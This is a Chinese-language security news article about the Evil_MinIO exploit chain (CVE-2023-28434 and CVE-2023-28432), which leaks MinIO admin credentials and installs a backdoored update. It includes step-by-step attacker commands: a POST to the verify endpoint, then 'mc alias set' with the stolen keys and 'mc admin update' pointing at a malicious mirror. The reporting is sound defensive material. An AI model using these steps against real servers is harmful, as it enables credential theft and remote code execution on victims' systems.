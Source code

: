 #  EVIL_MINIO 漏洞被用于攻击 MINIO 存储系统   
 安全客   2023-09-05 16:58  
  
Security Joes 研究人员观察到，一个未知的威胁参与者利用 MinIO 对象存储系统中的漏洞的公开可用的漏洞利用链，在易受攻击的服务器上实现任意代码执行。  
  
对象存储是一种数据存储架构，用于将非结构化数据存储到称为“对象”的单元中，并将它们存储在结构扁平的数据环境中。此类服务的领先提供商是 AWS、Google Cloud 和 Microsoft Azure。  
  
经过调查，Security Joes 研究人员发现该漏洞利用链之前并未在野外观察到，或者至少没有记录在案。  
  
“我们的团队在调查的一次攻击中观察到的一系列漏洞呈现出一种令人担忧的情况，攻击者有可能获得远程执行代码的能力，并完全控制运行易受攻击版本的高性能分布式对象存储系统的系统。称为 MinIO。  
该产品是一组更大的“尚不存在”的攻击向量的一部分，称为非本机对象存储服务。”  
  
该漏洞被称为 Evil_MinIO，使用 CVE-2023-28434（CVSS 评分：8.8）和CVE-2023-28432  
（CVSS 评分：7.5）漏洞。  
  
4 月，美国网络安全和基础设施安全局 (CISA) 将 MinIO 漏洞CVE-2023-28432  
添加到其已知利用漏洞目录中。  
  
远程攻击者可以利用这些缺陷来暴露存储在受损安装中的敏感信息，并促进 MinIO 应用程序运行的主机上的远程代码执行 (RCE)。  
  
攻击者可以触发问题，将精心设计的请求发送到端点“/minio/bootstrap/v1/verify”并检索易受攻击实例的管理凭据。  
  
“利用过程从针对端点“/minio/bootstrap/v1/verify”的精心设计的请求开始，该请求允许攻击者获取应用程序使用的环境变量的值。  
这变得尤为重要，因为 MinIO 依赖环境变量来配置管理员凭据，从而加剧了漏洞的严重性。  
换句话说，通过一个请求，攻击者就可以检索易受攻击实例的管理员凭据。”  
  
mc admin update 命令  
更新部署中的所有 MinIO 服务器，它还支持在部署没有公共 Internet 访问的环境中使用私有镜像服务器。  
  
攻击者可以通过推送“邪恶”更新而不是真实的 MinIO 二进制文件来安排欺骗性更新。  
  
以下是在易受攻击的 MinIO 实例中远程执行任意代码的分步过程：  
- 向端点/minio/bootstrap/v1/verify 发出POST 请求以公开管理员帐户的凭据。  
  
- 攻击者使用步骤 1 中获取的凭据配置 MinIO 客户端与易受攻击的实例进行交互。为此，需要以下命令行：mc alias set [ALIAS] [URL_TARGET_MINIO] [ACCESS_KEY] [SECRET_KEY] mc alias list  
  
- 攻击者在受感染的 MinIO 实例上触发更新过程，指向远程服务器上托管的恶意负载。为此，执行以下命令。mc admin update [ALIAS] [MIRROR_URL] –yes  
  
- “邪恶”MinIO 已安装，现在包含一个全局后门，允许攻击者在主机上执行命令。  
  
专家指出，与Web shell部署不同，在MinIO攻击场景中，攻击者不会在磁盘上留下常规可疑脚本的痕迹  
  
据专家称，攻击背后的威胁参与者具有独特的特征，在使用 bash 脚本和 Python 方面拥有丰富的经验和专业知识。攻击者还展示了使用后门访问来删除用于后利用活动的补充有效负载的能力。  
  
攻击者能够使用特定的下载器脚本来针对 Linux 和 Windows 系统。  
  
截至报告发布时，研究人员发现超过 50,000 个 MinIO 安装使用 Shodan 在线暴露。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ok4fxxCpBb6ueebO4fRq28RRQicTcIF81R3YxsAnroPzU2wwaoMrMya5zd68rIdUhrako4CMNRFdp9mzsCDq10A/640?wx_fmt=png "")  
  
报告原文：  
  
https://www.securityjoes.com/post/new-attack-vector-in-the-cloud-attackers-caught-exploiting-object-storage-services  
  
声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
  
  
  
  
